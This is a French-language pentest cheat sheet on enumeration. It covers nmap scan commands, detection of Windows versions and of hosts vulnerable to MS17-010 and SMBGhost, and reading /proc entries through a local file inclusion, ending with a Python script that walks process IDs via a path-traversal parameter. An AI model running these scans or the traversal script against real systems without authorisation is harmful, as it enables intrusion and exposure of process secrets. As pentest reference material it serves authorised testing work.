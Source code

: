 # Enumération

## Enumération des machines + services (nmap)

* Scan rapide des 1000 ports les plus communs sur un intervalle d'adresses IP :

```
nmap --max-retries 1 -T4 -sS --open -oX nmapSimple_<IP>.xml -oN nmapSimple_<IP>.txt <IP>/<MASK>
```

* Scan des versions sur les 1000 ports les plus communs d'un intervalle d'adresses IP :

```
nmap -sV --open <IP>/<MASK>
```

* Scan UDP des versions sur les 1000 ports les plus communs d'un intervalle d'adresses IP :

```
nmap -sU -sV --open <IP>/<MASK>
```

* Utiliser un script :

```
nmap --script <SCRIPT> -p <PORT> <IP>/<MASK>
```

### TIPS (nmap)

* Utiliser l'option `-Pn` de `nmap` pour les scans sur les machines Windows.
* Utiliser l'option `-p-` de `nmap` pour scanner tous les ports.

## Enumération des versions d'OS Windows

```
cme smb <IP>/<MASK>
```

```
RunFinger.py -i <IP>/<MASK>
```

**Note :** _Le lien suivant indique si une version est maintenue ou pas : https://docs.microsoft.com/fr-fr/windows/release-health/release-information_

## Enumération des machines vulnérables à MS17-010

_RCE à cause d'une faille du protocole SMBv1_

```
nmap -v -p 445 --script smb-vuln-ms17-010.nse -Pn -oN nmap_scan_ms17-010_<IP>.txt <IP>/<MASK>
```

```
msfconsole (auxiliary/scanner/smb/smb_ms17_010)
```

## Enumération des machines vulnérables à Bleed et Ghost

```
nmap -p 445 --script cve-2020-0796 -Pn -oN nmap_scan_smbBleed_Ghost_<IP>.txt <IP>/<MASK>
```

## Enumération des services _via_ une LFI (Linux)

Dans le répertoire `/proc` chaque processus possèdes un répertoire. Dans celui-ci, il est possible de récupérer des informations sur les services en cours d'exécution.

* Service en écoute sur la machine :

```
/proc/net/tcp
/proc/net/tcp6 
```

* Information sur un processus en particulier :

```
/proc/<PID>/environ
```

* Commande ayant était exécutée pour lancer un processus :

```
/proc/<PID>/cmdline
```

#### Script d'énumération

```
import requests

for i in range (0,10000):
	x = requests.get('http://domain.com?param=/../proc/' + str(i) + '/cmdline')
	if len(x.content) >= 158:
		print(i)
	if i%100 == 0:
		print(str(i) + '%')
```
